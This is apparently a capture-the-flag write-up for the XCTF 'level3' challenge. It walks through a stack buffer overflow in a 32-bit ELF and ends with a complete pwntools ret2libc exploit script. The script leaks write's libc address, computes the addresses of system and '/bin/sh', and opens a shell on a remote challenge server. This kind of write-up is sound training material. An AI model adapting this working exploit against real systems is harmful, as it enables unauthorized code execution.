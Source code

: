 # Level3

## Challenge

- This challenge gives us 2 files one is ELF 32-bit executables and other is dynamic library.
- To simply the task, I used IDA to disassemle the level3 binary file, which make it easier to see what the program is doing

```c
ssize_t vulnerable_function()
{
  char buf[136]; // [esp+0h] [ebp-88h] BYREF

  write(1, "Input:\n", 7u);
  return read(0, buf, 0x100u);
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  vulnerable_function();
  write(1, "Hello, World!\n", 0xEu);
  return 0;
}
```

## Overview & Idea

- Let's check the infomations of binary file

![img](/ROP/Dynamic/xctf/assets/file_check.png)

- The binary file has no stack protector, no PIE, so we can use BOF to overwrite ret of vulnerable_function with address of system() in libc to get shell.

## Detail

- First, I need to leak the address of write function (you can leak whatever function you want, the purpose of this stuff is find base address of libc). To do that, I must have to a call to write@plt and pass 3 parameter, param 1 is file descriptor, we want to print the address in screen so we put 1 in this param, param 2 is address of string which we'll put address of write@got.plt address that hold the current address of write in libc , param 3 is size of the string, the address is 4 bytes so we put value in this param is 4. To summary, we want to use write function to implement `write(1, write@got.plt, 4)` which will leak the address of write libc.

- The write@plt and write@got.plt I found

![img](/ROP/Dynamic/xctf/assets/print_write_libc.png)

- And we need the offset that we must overwrite to reach to the ret of vulnerable_function is `140 bytes`. This below is script that I use to leak write function address in libc

```python
padding = b"a"*140
vuln_addr = 0x0804844b
write_got_plt = 0x804a018
write_plt = 0x08048340

payload_1 = b""

payload_1 += padding
payload_1 += p32(write_plt)
payload_1 += p32(vuln_addr)     # After print the address, we return to vulnerable_funtion to implement get shell.
payload_1 += p32(0x1)
payload_1 += p32(write_got_plt)
payload_1 += p32(0x4)

leak = u32(p.recv(4))    # note: you need to check what output was printed to receive exactly the bytes of address
log.info(hex(leak))
p.recvline()
```

- After leaked the address, we need to calculate the current address of system function and "/bin/sh" string in program runtime by offset I found in given libc

```python
# offset
write_offset = 0xd43c0
sys_offset = 0x3a940
binsh_offset = 0x15902b

base_addr = leak - write_offset
sys_real = base_addr + sys_offset
binsh_real = base_addr + binsh_offset
```

- So we have enough material to get the shell. Let's do it!

## Exploit

```python
# file name: test.py

from pwn import *

p = remote("61.147.171.105", "62417")
#  elf = ELF("./level3_patched")
#  p = elf.process()
#  gdb.attach(p)


# necessary
padding = b"a"*140
vuln_addr = 0x0804844b
write_got_plt = 0x804a018
write_plt = 0x08048340

payload_1 = b""

payload_1 += padding
payload_1 += p32(write_plt)
payload_1 += p32(vuln_addr)
payload_1 += p32(0x1)
payload_1 += p32(write_got_plt)
payload_1 += p32(0x4)

p.recvline()
p.sendline(payload_1)

leak = u32(p.recv(4))
log.info(hex(leak))
p.recvline()

# offset
write_offset = 0xd43c0
sys_offset = 0x3a940
binsh_offset = 0x15902b

base_addr = leak - write_offset
sys_real = base_addr + sys_offset
binsh_real = base_addr + binsh_offset

payload_2 = padding
payload_2 += p32(sys_real)
payload_2 += b"aaaa"
payload_2 += p32(binsh_real)

p.sendline(payload_2)

p.interactive()
```

## Result

![img](/ROP/Dynamic/xctf/assets/result.png)

